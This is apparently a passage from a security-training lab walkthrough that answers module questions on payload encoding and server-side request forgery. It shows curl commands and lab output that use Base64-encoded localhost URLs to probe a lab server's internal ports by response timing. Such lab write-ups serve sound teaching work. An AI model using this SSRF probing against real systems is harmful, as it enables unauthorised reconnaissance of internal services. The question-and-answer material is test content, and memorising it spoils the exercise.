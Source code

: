## Question 1

### "If we URL-encoded our payload twice, would it still work? Answer format: Yes, No"

`No`; double URL encoding will break the payload.

Answer: `No`

# Server-Side Request Forgery (SSRF)

## Question 1

### "Can you leverage the SSRF vulnerability to identify port 3002 listening locally on the web server? Answer format: Yes, No"

Students can leverage the SSRF vulnerability to identify that port 3002 is listening locally on the web server. To do so, students first need to Base64-encode `http://127.0.0.1:3002` so that they can use it as the value for the `id` URL parameter:

Code: shell

```shell
echo "http://127.0.0.1:3002" | tr -d '\n' | base64
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo "http://127.0.0.1:3002" | tr -d '\n' | base64

aHR0cDovLzEyNy4wLjAuMTozMDAy
```

Students then need to use `cURL` to check the total time that it would take for the request that specifies port 3002:

```shell
curl -s -w 'Total Time: %{time_total}s\n' "http://STMIP:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTozMDAy"
```
```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s -w 'Total Time: %{time_total}s\n' "http://10.129.144.240:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTozMDAy"

Total Time: 18.372783s
```

Since it takes considerably large amount of time (18 seconds), the port must be open and listening as some communications/processes are taking place. Students can be assured by trying to send a request for a port that is probably not open, for example, port 8888:

```shell
echo "http://127.0.0.1:8888" | tr -d '\n' | base64
```
```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo "http://127.0.0.1:8888" | tr -d '\n' | base64

aHR0cDovLzEyNy4wLjAuMTo4ODg4
```

